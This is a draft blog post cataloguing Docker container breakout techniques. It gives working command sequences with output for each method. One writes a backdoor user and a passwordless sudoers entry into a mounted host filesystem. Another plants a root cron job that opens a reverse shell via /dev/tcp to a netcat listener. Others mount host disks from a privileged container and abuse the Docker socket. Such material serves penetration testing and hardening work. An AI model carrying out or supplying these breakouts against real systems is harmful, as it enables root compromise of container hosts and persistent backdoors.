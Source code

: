 ```yaml
---
title: "Container Breakouts Techniques"
date: 2020-07-11T13:09:54+02:00
draft: true
---
```

Basic Container Breakouts
## Intro
The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

It may the case that not all breakouts that you have in mind are listed. Do not hesitate and contact me so that I can add them. Over the time, I may extend them as well.

## Attacks
The attacks refer to each other, cause the root-cause why an attack is possible may differ, but the final break out may be the same. The examples are related to docker. The transfer to other container technologies, e.g., LXC may be slightly different and maybe there will be a follow-up post regarding this ;)

### Shared Host root-directory

If you got access to a container that shares directories with the host, that is not direct a problem. But, if the container has access to the host root-filesystem as user root (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you got the jack pot! We have multiple ways to approach the underlying host.
Lets assume that the host root directory is accessible at `/hostfs`

#### SSH to user

To escalate to the host, we create a user in the file `/hostfs/etc/passwd` and add the user to the sudoer’s. After the user is prepared, we connect via SSH to the host. Okay, it is a kind of flaky, because certain packages must have been installed and services running, you get the idea :)

```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2

# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

We have assumed that there is a SSH daemon running on the host, the service is not hardened and the `sudo` package was installed. Well, you could exchange the sudo-step by creating another user with `uid=0(root)` to get rid of that step, but anyway ;)

#### Cronjob

Another approach would be to write a cronjob file that get triggered every minute and connects to our container as root user.

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 


### Privileged Container
If you start a container with Docker and you add the flag `--privileged` that means to the process in the container can act as root user on the host. The containerization would have the advantage of self-containing software shipment, but no real security boundaries to the kernel.
There are plenty ways to escape from a privileged container. Let’s have a start.

#### Capabilities

##### `CAP_SYS_Module` – Load Kernel Module 
https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host 

##### `CAP_SYS_ADMIN` – cgroup release on notfy
TODO … have to read :D

#### Host devices

I prefer to use the host devices to escape from a privileged container. A quick directory listing of the devices in the container shows that we have access to all of them:

```
root@0462216e684b:~# ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jul 11 09:20 autofs

[...]
brw-rw---- 1 root  994   8,   0 Jul 11 09:20 sda
brw-rw---- 1 root  994   8,   1 Jul 11 09:20 sda1
[...]
# mount /dev/sda1 /mnt/
user@732c0d1ca2db:~$ ls -l /mnt/
total 132
lrwxrwxrwx   1 root root     7 Nov 19  2019 bin -> usr/bin
drwxr-xr-x   4 root root  4096 May 13 13:29 boot
[…]
drwxr-xr-x 104 root root 12288 Jul 11 10:09 etc
drwxr-xr-x   4 root root  4096 Jun 30 14:47 home
[…]
drwxr-x---   9 root root  4096 Jul 11 10:09 root
[…]
lrwxrwxrwx   1 root root     7 Nov 19  2019 sbin -> usr/bin
[…]
drwxr-xr-x  10 root root  4096 May 26 14:37 usr
[…]
# mkdir /hostfs
# mount /dev/sda1 /hostfs
```
As you can see, the hard drive itself is listed, which can be mounted. After mounting the device, it is possible to interact as root user with the device and backdoor the system.
Getting access via the hard drive is already described in the previous section [Shared Host root-directory](#shared-host-root-directory).


### Docker Socket

You know, every time you have access to the Docker Socket (default location: `/var/run/docker.sock`) it means that you are root on the host. Some containerized application may need access to the socket, e.g., for observation or local system management.
You have read correctly, local system management. As soon you have access to the socket, you can manage the local system. Okay, first at all, you can manage containers and these containers can afterwards manage the system. 
So if you want to escalate from the container to the system, you can interact with the Docker Socket manually or just simple install Docker in the container. Okay, and what’s the next step? Exactly, you had it already in your mind, start a privileged container. 
```
# apt update && apt install -y docker.io
# docker run --rm --privileged -it nodyd/ana bash
user@b89e2cfbd699:~$
```
With  access to a privileged container, you can perform the steps as already explained in previous section [Privileged Container](#privileged-container).

